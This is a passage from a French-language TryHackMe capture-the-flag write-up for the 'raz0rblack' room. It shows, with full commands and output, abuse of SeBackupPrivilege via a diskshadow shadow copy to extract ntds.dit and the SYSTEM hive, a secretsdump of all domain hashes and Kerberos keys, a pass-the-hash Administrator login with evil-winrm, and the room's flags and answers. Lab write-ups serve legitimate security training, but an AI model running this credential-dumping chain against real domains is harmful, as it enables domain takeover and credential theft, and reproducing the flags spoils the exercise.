Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\xyan1d3\Documents> cd ..
*Evil-WinRM* PS C:\Users\xyan1d3> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ============================================
raz0rblack\xyan1d3 S-1-5-21-3403444377-2687699443-13012745-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

On voit SeBackupPrivilege est activé, on peut avec se privillège lire les fichiers, même les fichiers SAM.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat diskshadow.txt 
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% z:

tim@kali:~/Bureau/tryhackme/write-up$ unix2dos diskshadow.txt 
unix2dos: conversion du fichier diskshadow.txt au format DOS…
```

On crée un fichier de configuration de sauvegarde.   

```bash
*Evil-WinRM* PS C:\Users\xyan1d3> mkdir /tmp


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/29/2021   4:22 AM                tmp


*Evil-WinRM* PS C:\Users\xyan1d3> cd /tmp
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt
Info: Uploading diskshadow.txt to C:\tmp\diskshadow.txt

                                                             
Data: 164 bytes of 164 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC,  10/29/2021 10:39:52 AM

-> set metadata C:\tmp\tmp.cabs
The existing file will be overwritten.
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {b637b529-9025-48ce-8987-7332723dce11} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {44dcc5c3-88de-45e7-8ade-9ebf4ff69884} set as environment variable.

Querying all shadow copies with the shadow copy set ID {44dcc5c3-88de-45e7-8ade-9ebf4ff69884}

	* Shadow copy ID = {b637b529-9025-48ce-8987-7332723dce11}		%someAlias%
		- Shadow copy set: {44dcc5c3-88de-45e7-8ade-9ebf4ff69884}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 10/29/2021 10:39:55 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4
		- Originating machine: HAVEN-DC.raz0rblack.thm
		- Service machine: HAVEN-DC.raz0rblack.thm
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% z:
-> %someAlias% = {b637b529-9025-48ce-8987-7332723dce11}
The shadow copy was successfully exposed as z:\.
->

```

upload la configuration.  
On fait la sauvegarede avec diskshadow.exe.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true -O SeBackupPrivilegeUtils.dll -nv
2021-10-29 13:58:16 URL:https://raw.githubusercontent.com/giuliano108/SeBackupPrivilege/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll [16384/16384] -> "SeBackupPrivilegeUtils.dll" [1]
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true -O SeBackupPrivilegeCmdLets.dll -nv
2021-10-29 14:00:18 URL:https://raw.githubusercontent.com/giuliano108/SeBackupPrivilege/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll [12288/12288] -> "SeBackupPrivilegeCmdLets.dll" [1]
```

On télécharge SeBackupPrivilegeUtils.dll et SeBackupPrivilegeCmdLets.dll.    

```bash
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll
Info: Uploading SeBackupPrivilegeUtils.dll to C:\tmp\SeBackupPrivilegeUtils.dll

                                                             
Data: 21844 bytes of 21844 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll
Info: Uploading SeBackupPrivilegeCmdLets.dll to C:\tmp\SeBackupPrivilegeCmdLets.dll

                                                             
Data: 16384 bytes of 16384 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
The operation completed successfully.

*Evil-WinRM* PS C:\tmp> download c:\tmp\ntds.dit ./ntds.dit
Info: Downloading c:\tmp\ntds.dit to ./ntds.dit

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\tmp> download c:\tmp\system ./system
Info: Downloading c:\tmp\system to ./system

                                                             
Info: Download successful!

```

On récupère les fichiers qui contienne les informations utilisateurs pour extraire les hashs.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo secretsdump.py -system system -ntds ntds.dit LOCAL
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xf1582a79dd00631b701d3d15e75e59f6
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f6162bb347993035d66a15417d73a667
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HAVEN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:26cc019045071ea8ad315bd764c4f5c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fa3c456268854a917bd17184c85b4fd1:::
raz0rblack.thm\xyan1d3:1106:aad3b435b51404eeaad3b435b51404ee:bf11a3cbefb46f7194da2fa190834025:::
raz0rblack.thm\lvetrova:1107:aad3b435b51404eeaad3b435b51404ee:f220d3988deb3f516c73f40ee16c431d:::
raz0rblack.thm\sbradley:1108:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
raz0rblack.thm\twilliams:1109:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:ab77c0dd6f5a28b63c4ae5f0eb89ad48f3ed43d52dc42f1dca2e99d8fc9cdbbf
Administrator:aes128-cts-hmac-sha1-96:81a749369e929b7f1731489b12a49df8
Administrator:des-cbc-md5:d3b646b65bceb5c7
HAVEN-DC$:aes256-cts-hmac-sha1-96:d6b41169e02a4543b90a8c697b167948413397c30f1bf5f0199a54f387358fc6
HAVEN-DC$:aes128-cts-hmac-sha1-96:5ed5bd57484ca826e09afa6e5b944c27
HAVEN-DC$:des-cbc-md5:f71a0dc89b9d079d
krbtgt:aes256-cts-hmac-sha1-96:eed4acbdf1b6cc2b3c1aef992a8cea74d8b0c4ad5b4deecf47c57c4d9465caf5
krbtgt:aes128-cts-hmac-sha1-96:3dbbd202aa0343d1b8df99785d2befbb
krbtgt:des-cbc-md5:857a46f13e91eae3
raz0rblack.thm\xyan1d3:aes256-cts-hmac-sha1-96:6de380d21ae165f55e7520ee3c4a81417bf6a25b17f72ce119083846d89a031f
raz0rblack.thm\xyan1d3:aes128-cts-hmac-sha1-96:9f5a0114b2c18ea63a32a1b8553d4f61
raz0rblack.thm\xyan1d3:des-cbc-md5:e9a1a46223cd8975
raz0rblack.thm\lvetrova:aes256-cts-hmac-sha1-96:3809e38e24ecb746dc0d98e2b95f39fc157de38a9081b3973db5be4c25d5ad39
raz0rblack.thm\lvetrova:aes128-cts-hmac-sha1-96:3676941361afe1800b8ab5d5a15bd839
raz0rblack.thm\lvetrova:des-cbc-md5:385d6e1f1cc17fb6
raz0rblack.thm\sbradley:aes256-cts-hmac-sha1-96:ddd43169c2235d3d2134fdb2ff4182abdb029a20724e679189a755014e68bab5
raz0rblack.thm\sbradley:aes128-cts-hmac-sha1-96:7cdf6640a975c86298b9f48000047580
raz0rblack.thm\sbradley:des-cbc-md5:83fe3e584f4a5bf8
raz0rblack.thm\twilliams:aes256-cts-hmac-sha1-96:05bac51a4b8888a484e0fa1400d8f507b195c4367198024c6806d8eb401cb559
raz0rblack.thm\twilliams:aes128-cts-hmac-sha1-96:a37656829f443e3fe2630aa69af5cb5a
raz0rblack.thm\twilliams:des-cbc-md5:01e958b0ea6edf07
[*] Cleaning up... 
```

On extrait les hashs.   
On trouve le hash de l'Admistrator : 9689931bed40ca5a2ce1218210177f0c       

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cat root.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Administrator</S>
      <SS N="Password">44616d6e20796f752061726520612067656e6975732e0a4275742c20492061706f6c6f67697a6520666f72206368656174696e6720796f75206c696b6520746869732e0a0a4865726520697320796f757220526f6f7420466c61670a54484d7b31623466343663633466626134363334383237336431386463393164613230647d0a0a546167206d65206f6e2068747470733a2f2f747769747465722e636f6d2f5879616e3164332061626f75742077686174207061727420796f7520656e6a6f796564206f6e207468697320626f7820616e642077686174207061727420796f75207374727567676c656420776974682e0a0a496620796f7520656e6a6f796564207468697320626f7820796f75206d617920616c736f2074616b652061206c6f6f6b20617420746865206c696e75786167656e637920726f6f6d20696e207472796861636b6d652e0a576869636820636f6e7461696e7320736f6d65206c696e75782066756e64616d656e74616c7320616e642070726976696c65676520657363616c6174696f6e2068747470733a2f2f7472796861636b6d652e636f6d2f726f6f6d2f6c696e75786167656e63792e0a</SS>
  </Obj>
</Objs>
```

On se connecte sur le compte Administrator.  
Dans le fichier root on trouve un mot passe en hexadécimal.   

  

On décode le mot de passe et on trouve le flag.   
Le flag est : THM{1b4f46cc4fba46348273d18dc91da20d}  

**What is Tyson's Flag?**  

```bash
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2021   1:25 PM                Administrator
d-----        2/25/2021  10:16 AM                lvetrova
d-r---        2/23/2021   6:21 AM                Public
d-----        2/25/2021  10:20 AM                twilliams
d-----        2/25/2021   9:34 AM                xyan1d3


*Evil-WinRM* PS C:\Users> cd twillianms
*Evil-WinRM* PS C:\Users\twilliams> ls


    Directory: C:\Users\twilliams


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:18 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021  10:20 AM             80 definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_de
finitely_definitely_not_a_flag.exe

*Evil-WinRM* PS C:\Users\twilliams> cat .\definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe
THM{5144f2c4107b7cab04916724e3749fb0}
```

Dans le répertoire twilliams on trouve un très long fichier, à l'interieur du fichier il y a le flag.   
Le flag est : THM{5144f2c4107b7cab04916724e3749fb0}  

**What is the complete top secret?**  

```bash
*Evil-WinRM* PS C:\> cd 'Program Files'
*Evil-WinRM* PS C:\Program Files> cd 'Top secret'
*Evil-WinRM* PS C:\Program Files\Top secret> ls


    Directory: C:\Program Files\Top secret


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2021  10:13 AM         449195 top_secret.png

Evil-WinRM* PS C:\Program Files\Top secret> mkdir c:\tmp


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/30/2021   1:14 AM                tmp

*Evil-WinRM* PS C:\Program Files\Top secret> cp top_secret.png c:\tmp

*Evil-WinRM* PS C:\tmp> download C:\tmp\top_secret.png ./top_secret.png
Info: Downloading C:\tmp\top_secret.png to ./top_secret.png

                                                             
Info: Download successful!
```

On récupère le fichier.   

 

On lit le fichier il nous propose un égnime. 
La réponse est :wq    

**Did you like your cookie?**  

On nous demande de choisire Yes ou d'éffacer votre PC.   
Réponse : Yes    


